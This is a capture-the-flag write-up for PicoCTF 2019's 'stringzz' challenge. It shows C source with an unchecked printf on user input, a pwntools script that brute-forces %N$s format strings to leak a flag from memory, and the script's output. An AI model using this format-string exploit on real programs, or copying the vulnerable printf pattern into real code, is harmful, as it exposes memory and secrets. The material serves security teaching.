 ```yaml
---
title: Leak all the stack
description: Leak all the stack using a format string attack.
---
```


# Format string - Leak all the stack

## Summary

Leak all the stack using a format string attack.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```bash
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```